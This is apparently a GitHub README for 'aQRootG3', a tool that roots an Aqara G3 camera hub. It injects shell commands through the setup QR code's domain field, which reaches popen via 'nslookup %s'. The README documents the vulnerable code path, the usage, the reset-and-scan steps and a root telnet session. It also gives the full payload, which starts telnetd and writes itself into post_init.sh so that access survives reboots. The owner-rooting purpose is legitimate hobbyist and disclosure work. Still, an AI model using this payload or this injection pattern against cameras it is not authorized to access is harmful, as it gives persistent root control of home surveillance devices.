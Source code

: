 # aQRootG3 #
### Enable telnet via qrcode command injection for Aqara G3 hub ###

<p align="center" width="100%">
    <img src="https://user-images.githubusercontent.com/1288525/146663111-146c18cc-f337-49a9-99b9-0e8f93e97e3a.jpg"> 
</p>


Intro
---------------
I was disappointed to see the Aqara G3 camera did not ship with telnet enabled so I managed to grab a copy of a firmware update for some good 'ol static analysis which confirmed none of the previous methods were going to work. Whilst going through  "ha_master" I did see that one of the variables passed in by the setup qrcode is thrown through sprintf as "nslookup %s" and subsequently passed to popen. (yay)
Getting telnet was fairly trivial, getting persistent telnet in one shot within the 132 char sprintf buffer and on a readonly filesystem was a little more challenging.
(Aqara have also changed their key ciphering for ssid and pwd)


Usage
---------------
```bash
usage: aQRootG3.py [-h] ssid pwd [filename]

aQRootG3 v0.1
Enable telnet via qrcode command injection for Aqara G3 hub

positional arguments:
  ssid        Wireless SSID
  pwd         Wireless Password
  filename    (Optional) Save QR Code as image

optional arguments:
  -h, --help  show this help message and exit
```


Steps
---------------
1. Reset the camera by pressing the button 10 times quickly.
2. When prompted (albeit probably in chinese) scan the QR code you've generated
3. This will give a failed message (due to invalid bind_key)
4. Add device to Aqara home as normal.
5. Enjoy.

```bash
$ telnet x.x.x.x
Trying x.x.x.x...
Connected to x.x.x.x.
Escape character is '^]'.

Camera-Hub-G3-BEEF login: root
Password:
1 ulimit=256
~ # uname -a
Linux Camera-Hub-G3-BEEF 4.9.84 #67 SMP PREEMPT Mon Sep 6 17:51:23 CST 2021 armv7l GNU/Linux
```


Payload Explanation
---------------
```python
payload = {
    "b": f"lumiLZc1dhEfPzMN",               # Made up bind_key
    "d": ";".join(
        [
            domain,                         # Domain being queried by nslookup, defaulting to "aiot-coap.aqara.cn"
            'x="fw_""manager.sh"',          # Workaround - Script checks if it's already running by grepping ps.
            "$x -t -k",                     # Enable tty and telnetd
            "$x -t -f",                     # Create default /data/scripts/post_init.sh
            "y=/data/scripts/post_init.sh",
            'echo "$x -t -k" >> $y',        # Append tty enable and telnetd start to post_init script
            "chmod 555 $y",                 # Remove write access to post_init script
        ]
    ),
    "x": cipher(ssid.encode()),             # Ciphered SSID
    "y": cipher(pwd.encode()),              # Ciphered Wireless Password
    "l": "en",                              # Language
}
```

Tested Versions
---------------

| Market | Firmware Version | Status |
| -------| --------------- | -- |
| China  | 3.3.2_0003.004  | :white_check_mark: |
